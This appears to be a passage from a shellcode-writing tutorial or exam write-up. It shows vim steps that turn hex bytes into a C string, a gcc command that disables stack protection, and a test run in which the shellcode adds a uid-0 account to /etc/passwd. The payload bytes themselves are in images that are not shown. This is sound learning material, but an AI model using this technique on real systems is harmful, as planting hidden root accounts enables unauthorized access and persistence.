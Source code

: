 #### Vi to Format the Hex from Byobu Buffer
+ _vim-fu_ was used to format the hex into the needed C format.  
![](/assets/images/vi-x-format.png)
  - Delete unneeded lines `dd` 
  - `:%s/ *$//g` 
    - Delete extra space characters at the end of the lines. 
  - `:se nu`     
    - See the line numbers
  - `gg`         
    - go to the first character of the first line
  - `i`+`<space>`
    - Put a space before the first hex character
  - `48 J`       
    - Join all 48 lines together
  - `%s/ /\\x/g` 
    - Replace all spaces with the C hex indicator

### Add the Shellcode to Host Program
![](/assets/images/shellcode-c.png)

#### Compiling Host Program
```console
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```

### Testing the Injected Shellcode
```console
root# tail -n 1 /etc/passwd
user:x:1000:1000:user,,,:/home/user:/bin/bash
root# ./shellcode
Shellcode Length:  107
root# tail -n 1 /etc/passwd
ctl:NNwZ8D1QjVy3Y:0:0::/:/bin//sh
```
+ Here we see that our user line has successfully been appended to the /etc/passwd file.
